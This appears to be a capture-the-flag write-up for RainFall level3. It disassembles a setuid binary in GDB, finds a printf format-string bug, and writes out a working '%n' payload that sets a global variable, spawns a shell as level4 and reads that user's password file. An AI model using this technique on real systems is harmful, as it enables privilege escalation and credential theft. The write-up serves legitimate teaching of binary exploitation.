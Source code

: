 ```sh
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
level3@RainFall:~$ ./level3
42
42
level3@RainFall:~$ ./level3 42
42
42
level3@RainFall:~$
```
There is one excutable file **level3**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) info function
...
0x080484a4  v
0x0804851a  main
...
(gdb) disas v
...
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
...
```
We can find ```v()``` function which have ```fgets()``` and ```printf()```. \
and also cmp with 0x804998c and 0x40. this mean
```sh
(gdb) x/s 0x804988c
0x804988c <m>:   ""
```
```c
int	m;
if (64 == m)
{
	...
	system("/bin/sh");
}
```
So for enter in the if condition, we have to change m value with **printf vulnerability** (a.k.a format string vulnerability) [Ref](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/). \
Format string vulnerability is simply, if printf used without formatter, we can manipulate stack.
```c
char *str;
gets(str);
printf("%s", str); // good code
printf(str); // bad code
```
If we put the argument like ```"%x %x"```, printf will be pop the stack and show us.
```sh
level3@RainFall:~$ python -c 'print "BBBB %x %x %x %x %x %x %x"' > /tmp/exploit2
level3@RainFall:~$ cat /tmp/exploit2 | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078
```
So we can guess our standard input is saved in 4th position of stack. \
We will replace BBBB by the address of the variable ```m```. \
Formatter ```%n``` is write number of bytes printed by ```printf```. \
Example:
```c
printf("buffer %s: %n%s", "hello", &offset, "world");
printf("%*s", offset, "bye");
```
```sh
buffer hello: world
              bye
<------------>
<align by offset>
```
So we can put specific number in the address with ```%n```, 4$ mean 4th stack address. \
First, put variable ```m``` address, so it will be seated in 4th stack and add 60 bytes of "some value" (a * 60), and write the number of bytes printed by printf (%n) which is ```address(4 bytes) + some value(60 bytes) = 64``` in the 4th (4$) address of stack, where variable ```m``` is located.
```sh
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/exploit2
level3@RainFall:~$ cat /tmp/exploit2 - | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
(hidden)
```
level3 passed !
